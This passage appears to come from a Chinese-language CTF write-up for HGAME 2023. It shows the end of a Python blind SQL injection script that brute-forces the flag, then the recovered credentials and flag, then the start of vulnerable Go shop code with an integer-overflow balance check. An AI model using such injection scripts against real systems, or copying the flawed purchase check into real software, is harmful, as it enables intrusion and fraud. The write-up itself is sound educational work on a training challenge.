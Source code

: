 ```python
        if 'Detected' in res.text:
            print('waf')
            quit()
        if 'Internal Error' in res.text:
            print('error')
            quit()
        if 'Success' in res.text:
            flag += s
            print('found!!!', flag)
            break
    if len(flag) != i:
        print('some char missing')
```

```
Username: hgAmE2023HAppYnEwyEAr
Password: WeLc0meT0hgAmE2023hAPPySql
```

![image-20230123213203728](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301232132790.png)

`hgame{It_1s_1n7EresT1nG_T0_ExPL0Re_Var10us_Ways_To_Sql1njEct1on}`

### Gopher Shop

贴一下关键部分的代码

/internal/user/user.go

```go
......

func BuyProduct(context *gin.Context) {
	username, _ := context.Get("username")

	user, err := db.GetUserByUsername(username.(string))
	if err != nil {
		return
	}
	product := context.Query("product")
	price, err := db.GetProductPrice(product)
	number, err := strconv.Atoi(context.Query("number"))

	//校验是否买的起
	if err != nil || number < 1 || user.Balance < uint(number) * price{
		context.JSON(400, gin.H{"error": "invalid request"})
		return
	}

	user.Days -= 1
	user.Inventory -= uint(number)
	user.Balance -= uint(number) * price

	//扣除库存和余额
	err = db.UpdateUserInfo(user)

	if err != nil {
		context.JSON(500, gin.H{"error": "delete balance and inventory error"})
		return
	}

	err = db.AddOrder(username.(string), product, uint(number), true)

	if err != nil {
		context.JSON(500, gin.H{"error": "add order error"})
```